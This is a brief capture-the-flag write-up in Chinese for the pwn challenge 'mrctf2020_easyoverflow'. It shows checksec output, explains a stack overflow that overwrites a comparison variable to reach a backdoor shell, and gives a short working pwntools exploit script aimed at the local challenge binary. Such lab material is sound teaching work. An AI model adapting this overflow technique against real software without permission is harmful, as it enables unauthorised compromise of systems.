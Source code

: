 ```yaml
---
title: 'mrctf2020_easyoverflow'
date: 2024-01-13 13:00:00 +0800
categories: [ctf,pwn]
tags: [control]
---
```

![image-20240113121646708](../assets/img/old_imgs/image-20240113121646708.png)

![image-20240113121700354](../assets/img/old_imgs/image-20240113121700354.png)

- 控制栈上参数
- 程序控制流

```shell
bamuwe@qianenzhao:~$ checksec mrctf2020_easyoverflow
[*] '/home/bamuwe/mrctf2020_easyoverflow'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

1. 保护全开,考虑利用程序自身的代码

2. 程序中存在后门,理解程序流

   关键在于`check`函数中,只要`a1(v5) == fake_flag`就可以得到`shell`

3. 通过ida可知`v5`在栈上的位置和`fake_flag`的内容

   ![image-20240113122354712](../assets/img/old_imgs/image-20240113122354712.png)

   ![image-20240113122428149](../assets/img/old_imgs/image-20240113122428149.png)

4. 构造`payload`通过填充`v4`的空间溢出到`v5`进而控制`v5`变量的内容

```python
from pwn import *
io = process('./mrctf2020_easyoverflow')
#io = gdb.debug('./mrctf2020_easyoverflow')
payload = b'A'*48+b'n0t_r3@11y_f1@g\x00'
io.sendline(payload)
io.interactive()
```

